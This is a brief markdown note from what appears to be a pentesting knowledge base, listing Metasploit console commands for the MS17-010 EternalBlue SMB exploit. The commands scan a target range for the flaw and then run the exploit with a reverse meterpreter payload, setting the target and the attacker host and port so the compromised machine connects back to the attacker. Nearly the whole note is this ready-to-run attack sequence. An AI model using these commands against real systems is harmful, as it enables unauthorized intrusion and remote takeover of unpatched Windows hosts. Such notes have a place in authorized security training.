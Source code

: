 # Metasploit

TODO: Fill this info

## 01 - Scan IP address(es)

```
msf > use exploit/windows/smb/ms17_010_eternalblue
```

```
msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <IP>/<CIDR>
```

```
msf exploit(windows/smb/ms17_010_eternablue) > check
```

## 02 - Exploit

```
msf > use exploit/windows/smb/ms17_010_eternalblue

msf exploit(windows/smb/ms17_010_eternablue) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/smb/ms17_010_eternablue) > options

msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <target_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lhost <attacker_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lport <attacker_PORT>

msf exploit(windows/smb/ms17_010_eternablue) > run
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Remote Services/SMB|Vulnerability Assessment: SMB]]

### Sploitify

- [Sploitify: Eternalblue MS17-010](https://sploitify.haxx.it/exploits/2017/MS17-010/)